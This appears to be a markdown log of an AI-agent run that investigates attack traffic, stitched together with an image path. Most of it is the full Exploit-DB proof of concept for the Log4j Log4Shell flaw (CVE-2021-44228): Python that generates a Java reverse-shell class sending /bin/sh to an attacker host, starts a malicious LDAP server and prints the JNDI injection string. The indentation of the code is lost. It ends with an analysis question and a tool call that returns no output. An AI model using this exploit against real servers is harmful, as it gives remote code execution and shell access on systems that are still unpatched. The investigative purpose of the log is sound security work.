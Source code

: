 | `50592` | `{'exploitdb': '# Exploit Title: Apache Log4j 2 - Remote Code Execution (RCE)\r\n# Date: 11/12/2021\r\n# Exploit Authors: kozmer, z9fr, svmorris\r\n# Vendor Homepage: https://logging.apache.org/log4j/2.x/\r\n# Software Link: https://github.com/apache/logging-log4j2\r\n# Version: versions 2.0-beta-9 and 2.14.1.\r\n# Tested on: Linux\r\n# CVE: CVE-2021-44228\r\n# Github repo: https://github.com/kozmer/log4j-shell-poc\r\n\r\nimport subprocess\r\nimport sys\r\nimport argparse\r\nfrom colorama import Fore, init\r\nimport subprocess\r\nimport threading\r\n\r\nfrom http.server import HTTPServer, SimpleHTTPRequestHandler\r\n\r\ninit(autoreset=True)\r\n\r\ndef listToString(s):\r\nstr1 = ""\r\ntry:\r\nfor ele in s:\r\nstr1 += ele\r\nreturn str1\r\nexcept Exception as ex:\r\nparser.print_help()\r\nsys.exit()\r\n\r\ndef payload(userip , webport , lport):\r\n\r\ngenExploit = (\r\n"""\r\nimport java.io.IOException;\r\nimport java.io.InputStream;\r\nimport java.io.OutputStream;\r\nimport java.net.Socket;\r\n\r\npublic class Exploit {\r\n\r\npublic Exploit() throws Exception {\r\nString host="%s";\r\nint port=%s;\r\nString cmd="/bin/sh";\r\nProcess p=new ProcessBuilder(cmd).redirectErrorStream(true).start();\r\nSocket s=new Socket(host,port);\r\nInputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();\r\nOutputStream po=p.getOutputStream(),so=s.getOutputStream();\r\nwhile(!s.isClosed()) {\r\nwhile(pi.available()>0)\r\nso.write(pi.read());\r\nwhile(pe.available()>0)\r\nso.write(pe.read());\r\nwhile(si.available()>0)\r\npo.write(si.read());\r\nso.flush();\r\npo.flush();\r\nThread.sleep(50);\r\ntry {\r\np.exitValue();\r\nbreak;\r\n}\r\ncatch (Exception e){\r\n}\r\n};\r\np.destroy();\r\ns.close();\r\n}\r\n}\r\n""") % (userip, lport)\r\n\r\n# writing the exploit to Exploit.java file\r\n\r\ntry:\r\nf = open("Exploit.java", "w")\r\nf.write(genExploit)\r\nf.close()\r\nprint(Fore.GREEN + \'[+] Exploit java class created success\')\r\n\r\nexcept Exception as e:\r\nprint(Fore.RED + f\'[-] Something went wrong {e.toString()}\')\r\n\r\ncheckJavaAvailible()\r\nprint(Fore.GREEN + \'[+] Setting up fake LDAP server\\n\')\r\n\r\n# create the LDAP server on new thread\r\nt1 = threading.Thread(target=createLdapServer, args=(userip,webport))\r\nt1.start()\r\n\r\n# start the web server\r\n\r\nhttpd = HTTPServer((\'localhost\', int(webport)), SimpleHTTPRequestHandler)\r\nhttpd.serve_forever()\r\n\r\ndef checkJavaAvailible():\r\njavaver = subprocess.call([\'./jdk1.8.0_20/bin/java\', \'-version\'], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)\r\nif(javaver != 0):\r\nprint(Fore.RED + \'[-] Java is not installed inside the repository \')\r\nsys.exit()\r\n\r\ndef createLdapServer(userip, lport):\r\nsendme = ("${jndi:ldap://%s:1389/a}") % (userip)\r\nprint(Fore.GREEN +"[+] Send me: "+sendme+"\\n")\r\n\r\nsubprocess.run(["./jdk1.8.0_20/bin/javac", "Exploit.java"])\r\n\r\nurl = "\r\nhttp://{}:{}/#Exploit".format\r\n(userip, lport)\r\nsubprocess.run(["./jdk1.8.0_20/bin/java", "-cp",\r\n"target/marshalsec-0.0.3-SNAPSHOT-all.jar", "marshalsec.jndi.LDAPRefServer", url])\r\n\r\ndef header():\r\nprint(Fore.BLUE+"""\r\n[!] CVE: CVE-2021-44228\r\n[!] Github repo:\r\nhttps://github.com/kozmer/log4j-shell-poc\r\n""")\r\n\r\nif __name__ == "__main__":\r\nheader()\r\n\r\ntry:\r\nparser = argparse.ArgumentParser(description=\'please enter the values \')\r\n\r\nparser.add_argument(\'--userip\', metavar=\'userip\', type=str,\r\nnargs=\'+\', help=\'Enter IP for LDAPRefServer & Shell\')\r\n\r\nparser.add_argument(\'--webport\', metavar=\'webport\', type=str,\r\nnargs=\'+\', help=\'listener port for HTTP port\')\r\n\r\nparser.add_argument(\'--lport\', metavar=\'lport\', type=str,\r\nnargs=\'+\', help=\'Netcat Port\')\r\n\r\nargs = parser.parse_args()\r\n\r\n#print(args.userip)\r\n\r\npayload(listToString(args.userip), listToString(args.webport), listToString(args.lport))\r\n\r\nexcept KeyboardInterrupt:\r\nprint(Fore.RED + "user interupted the program.")\r\nsys.exit(0)\n            '}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: What exploit is being used in the http_requests?

**Run ID:** `run_j3a1r0OHatMIpgjHIkD7kvei`

### Funciton Calls
**Step ID:** `step_PUuojz0oeFSxMMdJQVmeskTx`

**Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['uniq_http_requests']` |

| Output | Value |
| --- | --- |